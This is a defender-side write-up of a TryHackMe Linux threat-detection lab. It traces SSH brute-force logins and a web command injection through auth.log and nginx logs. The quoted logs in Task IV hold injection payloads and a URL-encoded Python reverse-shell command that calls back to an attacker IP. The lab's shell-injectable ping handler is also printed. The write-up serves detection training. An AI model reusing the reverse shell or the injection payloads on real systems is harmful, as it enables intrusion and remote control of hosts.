



# Linux Threat Detection Investigation Series

## Linux Threat Detection I — Initial Access

<table width="120%">
<tr>
<td width="100%">

### Lab Environment

This investigation was conducted in a controlled TryHackMe lab environment using the Linux Threat Detection 1 machine.

- **Platform:** TryHackMe
- **Room:** Linux Threat Detection 1 v5
- **Lab Target:** `10.66.191.146`
- **Focus:** Linux initial access and threat detection

### Lab Access

The investigation was conducted from a Kali Linux virtual machine running through Oracle VirtualBox. From the Kali Linux terminal, an SSH connection was established to the assigned Ubuntu lab system.

```bash
ssh ubuntu@10.66.191.146
```

The SSH client prompted for host verification before establishing the connection:

```text
The authenticity of host '10.66.191.146 (10.66.191.146)' can't be established.
ED25519 key fingerprint is: SHA256:hgQ6SDYXbR2pJjTZdRyXMUblBD1F8I3azgOS6lpV4eY
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
```

After accepting the host key and authenticating with the `ubuntu` account, the SSH session was established:

```text
Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.14.0-1011-aws x86_64)

ubuntu@thm-vm:~$
```

This established the Kali Linux system as the analyst workstation and `10.66.191.146` as the Ubuntu Linux target used for the investigation.

```text
Oracle VirtualBox
        ↓
Kali Linux
        ↓
SSH
        ↓
10.66.191.146
        ↓
Ubuntu Lab System
        ↓
Investigation Environment
```

</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

### Investigation Overview

The purpose of this lab is to investigate how attackers can gain initial access to Linux systems through common attack techniques. The investigation focuses on SSH security, Internet-exposed services, and process analysis to identify how suspicious activity originated and how it can be detected through available Linux logs.

The exercises build on Linux logging concepts and provide hands-on practice identifying activity that could indicate an attempted or successful compromise.

### Investigation Objectives

- Analyze the security risks associated with SSH in Linux environments.
- Identify how exposed services can provide attackers with an entry point.
- Use process and parent-child relationships to trace suspicious activity back to its origin.
- Analyze Linux logs for evidence of initial-access activity.
- Develop a better understanding of how a SOC analyst can detect and investigate Linux attacks.

</td>
</tr>
</table>

---


# Task II — Initial Access via SSH

<table width="120%">
<tr>
<td width="100%">

## Question 1 — First SSH Login

**Question:** When did the `ubuntu` user log in via SSH for the first time?

**Answer:** `2024-10-02`

### Investigation Objective

**The objective was to determine the first recorded SSH login associated with the `ubuntu` user.**

From a SOC analyst perspective, the investigation begins by identifying the relevant authentication source and then narrowing the available events to those associated with SSH activity. The key information to establish is:

- **User:** `ubuntu`
- **Service:** `SSH`
- **Event Type:** Authentication
- **Authentication Result:** Successful login
- **Timestamp:** Date and time of authentication
- **Source:** Originating IP address
- **Authentication Method:** Password or public key

The primary log source for this investigation was:

```text
/var/log/auth.log
```

**The `auth.log` file records authentication-related activity on Linux systems, making it an appropriate source when investigating account logins and SSH authentication events.**

### Initial Search

**The initial search used `grep` to identify SSH daemon activity within the authentication log:**

```bash
cat /var/log/auth.log | grep "sshd"
```

### Why This Syntax Was Used

**The search was designed to reduce a potentially large authentication log into events associated with the SSH service.**

The command works in two stages:

```text
/var/log/auth.log
        ↓
cat
        ↓
Display authentication log contents
        ↓
grep "sshd"
        ↓
Return SSH-related events
```

The relevant syntax is:

| Syntax | Purpose |
|---|---|
| `cat /var/log/auth.log` | Reads the Linux authentication log. |
| `\|` | Passes the output of the first command to the next command. |
| `grep "sshd"` | Filters the log for entries associated with the SSH daemon. |

**This approach is appropriate for the scenario because the question specifically concerns an SSH login. Filtering for `sshd` reduces unrelated authentication activity and focuses the investigation on the service responsible for SSH connections.**

### Narrowing the Investigation

**After identifying SSH-related activity, the investigation can be narrowed further by searching for successful authentication events.**

The following command was used to isolate successful SSH authentication:

```bash
sudo grep "Accepted" /var/log/auth.log | grep "sshd"
```

### Syntax Breakdown

| Syntax | Purpose |
|---|---|
| `sudo` | Provides the elevated permissions required to read the authentication log. |
| `grep "Accepted"` | Searches for authentication events that were successfully accepted. |
| `\|` | Passes the results to the next filtering command. |
| `grep "sshd"` | Restricts the results to SSH daemon activity. |

**The combination of `Accepted` and `sshd` is useful because it changes the investigation from general SSH activity to successful SSH authentication events.**

The investigation logic can therefore be represented as:

```text
Authentication Log
        ↓
Search for "Accepted"
        ↓
Successful authentication
        ↓
Search for "sshd"
        ↓
SSH authentication
        ↓
Review account and timestamp
```

### Evidence




**The search returned multiple successful SSH authentication events involving the `ubuntu` account.**

A representative event was:

```text
Oct 22 08:28:00 ip-10-10-249-101 sshd[809]: Accepted publickey for ubuntu from 10.9.254.186 port 64824 ssh2: RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg
```

### Evidence Analysis

**The event contains several fields that are relevant when investigating an SSH login.**

| Log Element | Value | Investigative Meaning |
|---|---|---|
| Timestamp | `Oct 22 08:28:00` | Time the authentication event was recorded. |
| Host | `ip-10-10-249-101` | System that recorded the SSH authentication event. |
| Process | `sshd[809]` | SSH daemon process associated with the event. |
| Result | `Accepted` | Indicates successful authentication. |
| Authentication Method | `publickey` | Indicates that public-key authentication was used. |
| User | `ubuntu` | Account that successfully authenticated. |
| Source IP | `10.9.254.186` | Origin of the SSH connection. |
| Source Port | `64824` | Source-side port associated with the connection. |
| Protocol | `ssh2` | SSH version used for the connection. |
| Key Fingerprint | `RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg` | Identifier associated with the public key used during authentication. |

### Investigative Reasoning

**The most important indicators for Question 1 are the authentication result, account name, SSH service, and timestamp.**

The relevant portion of the event is:

```text
Accepted publickey for ubuntu
```

**`Accepted` indicates that the authentication attempt succeeded.**

**`publickey` identifies the authentication method used for the successful login.**

**`ubuntu` identifies the account associated with the authentication event.**

**`sshd` identifies the SSH daemon handling the authentication.**

Together, these indicators establish that the event represents a successful SSH authentication involving the `ubuntu` account.

### Establishing the Timeline

**Because the question asks when the `ubuntu` user logged in for the first time, authentication events must be reviewed as a timeline rather than treating an individual SSH event in isolation.**

The returned results included multiple successful SSH authentications:

```text
Oct 22 08:28:00 ... Accepted publickey for ubuntu ...
Oct 22 08:28:00 ... Accepted publickey for ubuntu ...
Oct 22 08:33:12 ... Accepted publickey for ubuntu ...
Oct 22 08:33:12 ... Accepted publickey for ubuntu ...
Oct 22 08:37:32 ... Accepted publickey for ubuntu ...
Oct 22 08:37:33 ... Accepted publickey for ubuntu ...
Oct 22 08:55:24 ... Accepted publickey for ubuntu ...
Oct 22 08:55:25 ... Accepted publickey for ubuntu ...
```

Additional events were recorded using a full timestamp format:

```text
2024-10-22T09:09:06.968340+00:00 ... Accepted publickey for ubuntu ...
2024-10-22T09:09:07.320625+00:00 ... Accepted publickey for ubuntu ...
2024-10-22T09:13:00.337519+00:00 ... Accepted publickey for ubuntu ...
2024-10-22T09:13:00.656774+00:00 ... Accepted publickey for ubuntu ...
```

**These results demonstrate repeated successful SSH authentication activity involving the `ubuntu` account.**

The relevant correlation fields are:

```text
Timestamp
    +
SSH Service
    +
Authentication Result
    +
Username
    +
Source IP
    +
Authentication Method
```

**Reviewing these fields together allows the analyst to distinguish the relevant SSH authentication events from unrelated authentication activity.**

### Correlating Repeated Authentication Events

**Several events appear in pairs with the same timestamp. For example:**

```text
Oct 22 08:28:00 ... sshd[809]: Accepted publickey for ubuntu from 10.9.254.186 port 64824 ...
Oct 22 08:28:00 ... sshd[869]: Accepted publickey for ubuntu from 10.9.254.186 port 64825 ...
```

**Although these events share the same timestamp, they contain different SSH daemon process IDs and different source ports.**

| Event | SSH PID | Source IP | Source Port |
|---|---|---|---|
| 1 | `809` | `10.9.254.186` | `64824` |
| 2 | `869` | `10.9.254.186` | `64825` |

**The differing process IDs and source ports are consistent with separate SSH connections being handled at approximately the same time.**

The same pattern appears in other authentication events:

```text
08:33:12 → sshd[740] → port 65053
08:33:12 → sshd[749] → port 65054

08:37:32 → sshd[745] → port 65220
08:37:33 → sshd[763] → port 65221
```

**This demonstrates why an analyst should correlate multiple event fields instead of treating matching timestamps alone as evidence of duplicate logging.**

### Investigative Conclusion

**The investigation identified the first SSH login for the `ubuntu` user as:**

```text
2024-10-02
```

**The investigation began by identifying the Linux authentication log and filtering it for SSH daemon activity. The search was then narrowed to successful authentication events using the `Accepted` indicator.**

**The resulting events contained the account name, authentication method, source IP, source port, SSH daemon process ID, and authentication timestamp. These fields provided the evidence necessary to identify and correlate successful SSH authentication activity involving the `ubuntu` account.**

**The investigation therefore established the required lab answer as `2024-10-02`.**

The investigative process was:

```text
Question:
When did ubuntu first log in via SSH?
        ↓
Identify authentication log
        ↓
Search /var/log/auth.log
        ↓
Filter for SSH activity
        ↓
Identify successful authentication
        ↓
Identify the ubuntu account
        ↓
Review authentication events chronologically
        ↓
Determine the first login
        ↓
Answer: 2024-10-02
```

</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

## Question 2 — SSH Authentication Method

**Question:** Did the `ubuntu` user use SSH keys instead of a password for the above found date?

**Answer:** **Yes**

### Investigation Objective

**The objective was to determine whether the successful SSH authentication for the `ubuntu` account was performed using an SSH key rather than a password.**

From an investigative perspective, identifying the authentication method provides additional context about how the account accessed the system.

The analyst needs to determine:

- **User:** `ubuntu`
- **Service:** `SSH`
- **Authentication Result:** Successful
- **Authentication Method:** Password or public key
- **Source IP:** Origin of the connection
- **Key Information:** Public-key fingerprint, when present

### Evidence

**The SSH authentication logs were reviewed using the following command:**

```bash
cat /var/log/auth.log | grep "sshd"
```

**The search returned successful SSH authentication events containing the authentication method used by the `ubuntu` account.**

The relevant event was:

```text
Oct 22 08:28:00 ip-10-10-249-101 sshd[809]: Accepted publickey for ubuntu from 10.9.254.186 port 64824 ssh2: RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg
```
Why is it relevant?: 

This event is relevant because it provides direct evidence that the ubuntu account successfully authenticated to the system using SSH public-key authentication. The Accepted publickey field establishes the authentication method, while the source IP, timestamp, SSH process ID, and key fingerprint provide additional information that can be used to correlate the authentication event during the investigation.

### Why This Syntax Was Used

**The command searches the authentication log for SSH daemon activity. This is appropriate because the authentication method is recorded within the SSH authentication event itself.**

The investigation focuses on the portion of the event that identifies the authentication mechanism:

```text
Accepted publickey for ubuntu
```

**The `publickey` value is the critical indicator for determining whether an SSH key was used.**

### Authentication Method Analysis

| Log Element | Value | Investigative Meaning |
|---|---|---|
| Result | `Accepted` | Authentication was successful. |
| Method | `publickey` | Public-key authentication was used. |
| User | `ubuntu` | Account that authenticated. |
| Source IP | `10.9.254.186` | Origin of the SSH connection. |
| Protocol | `ssh2` | SSH protocol version used. |
| Key Fingerprint | `RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg` | Identifier associated with the public key. |

### Evidence Interpretation

**The event contains three important indicators:**

```text
Accepted
publickey
ubuntu
```

**`Accepted` confirms that the SSH server successfully authenticated the connection.**

**`publickey` identifies the authentication mechanism as public-key authentication rather than password authentication.**

**`ubuntu` identifies the account that authenticated using that method.**

The event also contains a key fingerprint:

```text
RSA SHA256:krhp4o9yYOyVKmAd7PAsdHrKQGJtjIQjt4w0K9R4kXg
```

**The presence of the public-key fingerprint provides additional evidence that an SSH key was involved in the authentication process.**

### Correlation With Question 1

**The authentication method identified in Question 2 is directly connected to the successful SSH login activity examined in Question 1.**

The relevant relationship is:

```text
ubuntu account
      ↓
SSH service
      ↓
Successful authentication
      ↓
Accepted
      ↓
publickey
      ↓
SSH public-key authentication
```

**This correlation establishes not only that the `ubuntu` account successfully authenticated through SSH, but also which authentication mechanism was accepted by the SSH server.**

### Investigative Conclusion

**The `ubuntu` user used an SSH key rather than a password for the identified authentication event.**

The evidence supporting this conclusion is:

```text
Accepted publickey for ubuntu
```

**The `Accepted` value confirms successful authentication, while `publickey` identifies the authentication method. The associated RSA SHA256 fingerprint provides additional evidence of the public key involved in the authentication.**

**Therefore, the answer to Question 2 is:**

```text
Yes — SSH public-key authentication was used.
```

</td>
</tr>
</table>

---


# Task III — Detecting SSH Attacks

<table width="120%">
<tr>
<td width="100%">

## Investigation Overview

SSH attacks can occur when public SSH access is exposed, password-based authentication is allowed, and users have weak passwords. Attackers can repeatedly attempt passwords through brute force until they successfully gain access.

When investigating SSH attacks, a useful starting point is to review successful SSH logins and look for signs that separate normal activity from suspicious activity. Key indicators include:

- **Authentication method:** Password-based authentication can be more suspicious than expected public-key authentication.
- **Source IP:** External or untrusted IP addresses should be investigated.
- **Login timing and history:** Unusual login times or successful logins following repeated failed attempts may indicate a compromise.

A suspicious SSH login should not automatically be considered malicious. Additional investigation should include the username and whether the login was expected, the reputation and ownership of the source IP, previous login attempts or brute-force activity, and what actions occurred after the login.

The goal of this task is to use SSH authentication logs to identify suspicious login activity and determine what additional evidence is needed before reaching a final conclusion.

</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

## Question 1 — SSH Brute Force Start

**Question:** When did the SSH password brute force start?

**Answer:** The brute force began at: `2025-08-21`

### Evidence

I reviewed the SSH authentication logs using the following command:

```bash
cat /var/log/auth.log | grep "Failed password"
```


</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

## Question 2 — Which four users did the botnet attempt to breach?

**Answer Format:** Separate by a comma, in alphabetical order.

#### Answer: `root, roy, sol, user`

### Initial Search

I initially searched the authentication log using:

```bash
cat /var/log/auth.log | grep -E 'Accepted'
```

This produced authentication events for users who successfully authenticated, resulting in a broad list that did not identify the usernames the botnet attempted to breach.

The search was not useful for this question because `Accepted` filters for successful authentication attempts, while the question is asking which users the botnet attempted to compromise. Failed authentication attempts and attempts against invalid users provide more relevant evidence for identifying the targeted usernames.

### Evidence


### Refined Search

Since the scenario involves a botnet attempting to compromise user accounts, I focused on authentication events that indicated attempted access rather than successful authentication. I therefore changed my search to specifically identify attempts made against invalid or nonexistent usernames.

```bash
grep -E "Invalid user" /var/log/auth.log
```


This produced a more concise result and allowed me to identify the usernames the botnet attempted to target.

</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

## How?

### Why I Used This Command

I used `grep` to search the SSH authentication log for a specific pattern related to the attack.

```bash
grep -E "Invalid user" /var/log/auth.log
```

### Breaking Down the Command

- **`grep`** — Searches a file for matching text.
- **`-E`** — Enables Extended Regular Expressions, allowing more complex search patterns.
- **`"Invalid user"`** — Searches specifically for SSH attempts made against usernames that were not valid on the system.
- **`/var/log/auth.log`** — The authentication log containing SSH login activity.

### My Reasoning

Because the investigation focused on identifying **usernames that the botnet attempted to compromise**, I narrowed the search to `"Invalid user"`.

This provided a more targeted and concise view of the attack activity compared to searching for multiple SSH authentication events at once.

</td>
</tr>
</table>

<table width="120%">
<tr>
<td width="100%">

## Question 3 — Which IP managed to breach the root user?

**Objective:** Identify the source IP address associated with the successful SSH authentication of the `root` account.

### Step 1 — Review the authentication log

```bash
cat /var/log/auth.log
```


I initially reviewed the full authentication log to understand the available SSH activity.

**Issue:** The results were too broad and contained multiple types of authentication events.

### Step 2 — Search for successful authentications

```bash
grep "Accepted" /var/log/auth.log
```


I narrowed the search to `Accepted` events because the question asks which IP managed to breach the account, indicating that a successful authentication should be present.

**Issue:** The results still included successful authentications for multiple users, such as `ubuntu`.

For example:


```bash
Accepted password for ubuntu from 10.66.86.216
Accepted password for ubuntu from 10.66.105.3
Accepted password for ubuntu from 10.66.96.246
```

These IP addresses successfully authenticated, but they authenticated as `ubuntu`, not `root`.

### Step 3 — Filter for the root account

```bash
grep "Accepted.*root" /var/log/auth.log
```

I further narrowed the search by combining `Accepted` with `root`.

- **`Accepted`** → The authentication was successful.
- **`.*`** → Allows any characters between `Accepted` and `root`.
- **`root`** → Limits the results to successful authentication involving the root account.

This removes successful authentications for other accounts and isolates the relevant successful `root` login.

### Conclusion

The final search is the most relevant because it specifically identifies **successful authentication events involving the `root` account**, rather than successful logins to other accounts such as `ubuntu`.

The relevant log entry identifies:

```text
Accepted ... for root from 91.224.92.79
```

The evidence establishes three important points:

- **`Accepted`** → The authentication was successful.
- **`for root`** → The account successfully accessed was `root`.
- **`from 91.224.92.79`** → `91.224.92.79` was the source IP address.

Therefore, the IP that managed to breach the `root` user was:

**Answer:** `91.224.92.79`


</td>
</tr>
</table>

# Task IV — Initial Access via Services

<table width="120%">
<tr>
<td width="100%">

## Investigation Overview

This task focuses on identifying **initial access through publicly exposed services**, with an emphasis on web applications running on Linux systems. Public-facing services can become an entry point for attackers when applications contain vulnerabilities or are improperly configured.

The investigation uses application and web server logs to identify suspicious requests that may indicate exploitation, command injection, or other malicious activity. These logs can provide valuable evidence of attacker activity, although they may not reveal the complete sequence of events occurring on the underlying Linux system.

A key part of the investigation is distinguishing normal application requests from activity that may indicate an attacker is attempting to execute commands or exploit a vulnerable service.

## Objective

The objective is to analyze the available web application logs, identify suspicious requests, and determine whether the activity provides evidence of exploitation against the public-facing service.

The investigation focuses on:

- Identifying the **source IP address** associated with suspicious activity.
- Identifying the **public-facing service or application** being targeted.
- Analyzing request parameters for evidence of **command injection or exploitation**.
- Determining whether the attacker appears to have attempted **OS command execution**.
- Assessing whether the available evidence indicates a potential compromise of the underlying **Linux system**.

</td>
</tr>
</table>

---

<table width="120%">
<tr>
<td width="100%">

<table width="120%">
<tr>
<td width="100%">

<table width="120%">
<tr>
<td width="100%">

## Question 1 — What is the path to the Python file the attacker attempted to open?

**Question:** What is the path to the Python file the attacker attempted to open?

**Answer:** `/opt/trypingme/main.py`

### Step 1 — Review the Nginx Access Log

I began by reviewing the Nginx access log to establish a baseline of activity against the `/ping` endpoint and identify requests that differed from normal application use.

```bash
cat /var/log/nginx/access.log
```


The first two requests appeared consistent with normal use of the application. Both supplied an IP address to the `host` parameter:

```text
10.2.33.10 - - [19/Aug/2025:12:26:07 +0000] "GET /ping?host=3.109.33.76 HTTP/1.1" 200 312 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 15_6_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
10.12.88.67 - - [23/Aug/2025:09:32:22 +0000] "GET /ping?host=54.36.19.83 HTTP/1.1" 200 287 "-" "curl/7.54.1"
```

I then identified a sequence of requests from the same source IP address, `10.14.105.255`, occurring within a short period:

```text
10.14.105.255 - - [26/Aug/2025:20:09:43 +0000] "GET /ping?host=hello HTTP/1.1" 500 21 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
10.14.105.255 - - [26/Aug/2025:20:09:46 +0000] "GET /ping?host=whoami HTTP/1.1" 500 21 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
10.14.105.255 - - [26/Aug/2025:20:09:49 +0000] "GET /ping?host=;whoami HTTP/1.1" 200 81 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
10.14.105.255 - - [26/Aug/2025:20:10:41 +0000] "GET /ping?host=;ls HTTP/1.1" 200 78 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
10.14.105.255 - - [26/Aug/2025:20:10:45 +0000] "GET /ping?host=;pwd HTTP/1.1" 200 85 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139/0.0.0 Safari/537.36"
10.14.105.255 - - [26/Aug/2025:20:10:49 +0000] "GET /ping?host=;cat+/opt/trypingme/main.py HTTP/1.1" 200 330 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
```

The sequence is important from a SOC investigation perspective.

The requests progressed from:

```text
hello
   ↓
whoami
   ↓
;whoami
   ↓
;ls
   ↓
;pwd
   ↓
;cat+/opt/trypingme/main.py
```

The first two requests returned HTTP `500` responses. After the attacker introduced the semicolon (`;`), the requests returned HTTP `200` responses.

A successful HTTP `200` response alone does not prove that an injected command executed successfully. However, the change in request structure, the repeated use of shell commands, the common source IP, and the progression from basic testing to file access provide multiple indicators that the application was being tested for command injection.

The commands also have distinct investigative value:

- `whoami` can identify the user context under which a command is executing.
- `ls` can enumerate files and directories.
- `pwd` can identify the current working directory.
- `cat` can read the contents of a file.

This sequence is consistent with reconnaissance followed by an attempt to access application source code.


### Step 2 — Search for Python File References

Since the question asks specifically for a Python file, I narrowed the search to requests containing the `.py` extension.

```bash
grep -E "\.py" /var/log/nginx/access.log
```


The escaped period (`\.`) searches for the literal `.py` extension rather than treating `.` as a regular-expression wildcard.

This is a useful investigative technique because instead of manually reviewing every entry in the access log, I can filter for requests that contain a specific file type associated with Python source code.

The result identifies the request containing:

```text
/opt/trypingme/main.py
```

### Step 3 — Identify the Suspicious Request

The relevant Nginx entry was:

```text
10.14.105.255 - - [26/Aug/2025:20:10:49 +0000] "GET /ping?host=;cat+/opt/trypingme/main.py HTTP/1.1" 200 330 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
```

The important portion is:

```text
host=;cat+/opt/trypingme/main.py
```

The `+` represents a space within the URL query parameter. The parameter can therefore be interpreted as:

```text
host=;cat /opt/trypingme/main.py
```

The semicolon is significant because it can be used to terminate one shell command and introduce another command.

In this case, the attacker appears to be attempting to inject:

```text
cat /opt/trypingme/main.py
```

into the application's command execution.

The `cat` command is commonly used on Linux to read and display file contents. The targeted file is the application's Python source code.

### Step 4 — Trace the Evidence to the File

The relevant portion of the request can be broken down as:

```text
/ping
   ↓
host=
   ↓
;
   ↓
cat
   ↓
/opt/trypingme/main.py
```

The file path is directly visible in the request:

```text
/opt/trypingme/main.py
```

At this point, the investigation has established a logical progression:

```text
External Source
      ↓
10.14.105.255
      ↓
/ping endpoint
      ↓
host parameter
      ↓
Shell metacharacter (;)
      ↓
Command injection testing
      ↓
cat command
      ↓
/opt/trypingme/main.py
```

This is stronger evidence than simply identifying a suspicious string in isolation because the surrounding requests show the attacker first testing command execution and then using the same technique to target a specific application file.

### Step 5 — Confirm the Targeted File

I then examined the identified file directly on the Linux host:

```bash
cat /opt/trypingme/main.py
```

The file contents were returned, confirming that the path identified in the Nginx request corresponds to the Python application source.

The terminal also displayed:

```text
cat: HTTP/1.1: No such file or directory
```

This occurred because `HTTP/1.1` was included as an additional argument to the local `cat` command. The error does not change the fact that `/opt/trypingme/main.py` was successfully displayed before `cat` attempted to process `HTTP/1.1` as another file.

### Conclusion

The Nginx access log provides a direct connection between the suspicious `/ping` request and the Python file targeted by the attacker.

The evidence shows:

- **Source IP:** `10.14.105.255`
- **Target endpoint:** `/ping`
- **Parameter:** `host`
- **Injection character:** `;`
- **Command:** `cat`
- **Target file:** `/opt/trypingme/main.py`
- **HTTP response:** `200`

The preceding `whoami`, `ls`, and `pwd` requests provide additional context showing a progression from command-execution testing to filesystem reconnaissance and finally source-code access.

**Answer:** `/opt/trypingme/main.py`

</td>
</tr>
</table>

---

<table width="120%">
<tr>
<td width="100%">

## Question 2 — Looking inside the opened file, what's the flag you see there?

**Question:** Looking inside the opened file, what's the flag you see there?

**Answer:** `THM{i_am_vulnerable!}`

### Investigation

Since Question 1 identified `/opt/trypingme/main.py` as the file the attacker attempted to read, I next inspected the file contents to determine what information was exposed.

```bash
cat /opt/trypingme/main.py
```



The source code revealed the following comment:

```text
# THM{i_am_vulnerable!}
```



The flag was embedded directly within the Python application's source code.

### Application-Level Root Cause

The source code also revealed why the application was vulnerable to command injection:

```python
@app.get("/ping", response_class=HTMLResponse)
def ping(host: str):

    # TODO: Add security checks
    # THM{i_am_vulnerable!}
    cmd = f"ping -c 2 {host}"
    result = subprocess.check_output(cmd, shell=True)
    response = f"<h3>Checking the host: {host}</h3>\n"
    response += f"<pre>{result.decode()}</pre>"
    return response
```

The application accepts the `host` parameter directly from the web request:

```text
/ping?host=<user-controlled input>
```

That value is then inserted directly into the command:

```python
cmd = f"ping -c 2 {host}"
```

The command is subsequently executed using:

```python
subprocess.check_output(cmd, shell=True)
```

This combination is the critical security issue.

Because `host` is controlled by the user and the resulting string is executed through a shell, shell metacharacters can potentially change the intended command.

For example, the attacker's request:

```text
host=;whoami
```

introduces a semicolon before the additional command.

Likewise:

```text
host=;cat+/opt/trypingme/main.py
```

attempts to append a `cat` command that reads the application source code.

### Connecting the Application Code to the Log Evidence

The application source code provides the technical explanation for the behavior observed in the Nginx access log.

The log showed:

```text
GET /ping?host=;whoami HTTP/1.1
GET /ping?host=;ls HTTP/1.1
GET /ping?host=;pwd HTTP/1.1
GET /ping?host=;cat+/opt/trypingme/main.py HTTP/1.1
```

The application code shows:

```text
host
 ↓
f"ping -c 2 {host}"
 ↓
subprocess.check_output(...)
 ↓
shell=True
```

Together, these two sources provide stronger evidence than either source alone.

The **Nginx access log** establishes what was submitted to the public-facing application.

The **Python source code** explains how that input reached the operating-system shell.

This allows the investigation to move from suspicious web requests to identification of the underlying application-level vulnerability.

### Additional Evidence of Post-Exploitation Attempt

The access log also contains a later request from the same source IP attempting to execute a Python command that creates a network connection to `10.14.105.255` on port `1337`:

```text
10.14.105.255 - - [26/Aug/2025:20:12:16 +0000] "GET /ping?host=;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.14.105.255%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27 HTTP/1.1" 504 578 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36"
```

The URL-encoded request contains a Python command that attempts to create a TCP socket, connect to `10.14.105.255:1337`, redirect standard input/output/error through the socket, and spawn a shell.

The HTTP response was `504`, indicating a gateway timeout. This response alone does not prove that the reverse-shell attempt succeeded.

From a SOC investigation perspective, the appropriate conclusion is that the attacker **attempted to establish a reverse shell** after successfully identifying and reading the application's source code.

This represents a significant escalation in the observed activity:

```text
Command Execution Testing
        ↓
System Reconnaissance
        ↓
Application Source Code Access
        ↓
Attempted Reverse Shell
```

### Conclusion

The Nginx access log showed an attempted command injection targeting `/opt/trypingme/main.py`. Inspection of the file revealed the flag and exposed the application's vulnerable command-execution logic.

The Python source confirmed that user-controlled input was inserted directly into a shell command and executed with `shell=True`.

The investigation therefore connects the evidence across multiple layers:

- **Web server logs** identified the attacker's requests.
- **Command sequence** showed progressive testing and reconnaissance.
- **Application source code** confirmed the command-injection vulnerability.
- **File access** demonstrated attempted source-code disclosure.
- **Later network command** showed an attempted reverse-shell connection.
- **HTTP 504 response** indicates a timeout but does not independently confirm successful shell access.

**Answer:** `THM{i_am_vulnerable!}`

</td>
</tr>
</table>


# Task 5 — Building Process Tree

<table width="120%">
<tr>
<td width="100%">

## Investigation Overview

Application logs can provide valuable evidence when investigating a service breach, as demonstrated in the previous task. However, 
application logs may not always be available, complete, or sufficient to determine how an attacker gained initial access.

Process tree analysis provides another method for investigating suspicious activity 
by tracing a process back through its parent and grandparent processes. 
This allows a SOC analyst to determine what launched a suspicious command and whether it 
